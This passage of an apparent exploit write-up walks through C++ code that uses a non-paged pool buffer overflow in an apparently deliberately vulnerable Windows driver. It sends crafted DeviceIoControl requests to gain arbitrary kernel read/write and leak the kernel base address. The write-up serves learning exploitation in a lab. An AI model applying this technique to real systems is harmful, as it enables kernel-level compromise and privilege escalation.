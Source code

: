 Now we declare the buffer that will be our key to arbitrary read/write:
```cpp
...
	unsigned long long pBuffer[5] = { 0 };

	pBuffer[0] = 0xbabababababababa;
	pBuffer[1] = 0xbabababababababa;
	// pBuffer[2] = 0x6b6361480202b200;
	pBuffer[2] = 0x6b63614802020000;
	pBuffer[3] = 0xbabababababababa;
	pBuffer[4] = (unsigned long long)MyArwHelpObjIo.HelperObjectAddress;

	// using buffer overflow to rewrite the address;
	DeviceIoControl(hFile, 0x22204b, &pBuffer, 0x28, &pBuffer, 0x28, &bytes, nullptr);
...
```
The first two ULLs are padding, the next is the `_POOL_HEADER` that will be overwritten, the third is also padding, and the fourth and most important is the `HelperObjectAddress` of our object. Finally, we call **`TriggerBufferOverflowNonPagedPoolNx`** for the overwrite.

Then we iterate through all structs checking if their first 8 bytes are the same (`0xdeadbeefdeadbeef`) or the ones we set (`pBuffer[3] = 0xbabababababababa;`)
```cpp
	unsigned long long tester = 0xdeadbeefdeadbeef;
	unsigned int index = 0;

	for (unsigned int i = 0; i < 5000; i++) {

		HelperArray[i].Name = &tester;

		DeviceIoControl(hFile, 0x22206b, &HelperArray[i], sizeof(HelperArray[i]), &HelperArray[i], sizeof(HelperArray[i]), &bytes, nullptr);

		if (tester != 0xdeadbeefdeadbeef) {

			printf("\n[%d] Affected allocation by the overflow -> 0x%p\n", i, HelperArray[i].HelperObjectAddress);

			UINT64 pExAllocatePoolWithTag = addrKrnl + 0x2008;

			HelperArray[i].Name = &pExAllocatePoolWithTag;
			DeviceIoControl(hFile, 0x222067, &HelperArray[i], sizeof(HelperArray[i]), &HelperArray[i], sizeof(HelperArray[i]), &bytes, nullptr);

			unsigned long long ntPointer = 0x9090909090909090;
			MyArwHelpObjIo.Name = &ntPointer;
			DeviceIoControl(hFile, 0x22206b, &MyArwHelpObjIo, sizeof(MyArwHelpObjIo), &MyArwHelpObjIo, sizeof(MyArwHelpObjIo), &bytes, nullptr);

			ntPointer -= 0x00b69010;

			printf("\n[Nt base] -> 0x%p\n", ntPointer);

			return true;
		}
	}

	return false;
}
```
